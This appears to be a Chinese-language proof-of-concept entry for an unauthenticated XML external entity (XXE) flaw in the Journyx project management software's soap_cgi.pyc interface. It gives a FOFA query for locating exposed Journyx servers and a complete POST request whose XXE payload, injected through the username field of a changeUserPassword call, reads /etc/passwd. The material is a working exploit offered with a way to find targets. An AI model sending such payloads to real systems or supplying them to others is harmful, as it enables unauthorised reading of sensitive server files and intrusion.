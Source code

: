 # Journyx存在未经身份验证的XML外部实体注入

Journyx项目管理软件 soap_cgi.pyc 接口存在XML实体注入漏洞，未经身份认证的攻击者可以利用此漏洞读取系统内部敏感文件，获取敏感信息，使系统处于极不安全的状态。

## fofa

```javascript
"Journyx"
```
![image](https://github.com/user-attachments/assets/85009ccf-4869-47b4-9ed1-a3204e264803)

## poc

```javascript
POST /jtcgi/soap_cgi.pyc HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Ldwk: bG91ZG9uZ3dlbmt1
User-Agent: curl/8.1.2
Content-Length: 333

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><changeUserPassword><username>&test;</username><curpwd>zzz</curpwd><newpwd>zzz123</newpwd></changeUserPassword></soapenv:Body></soapenv:Envelope>
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408091049662.png)
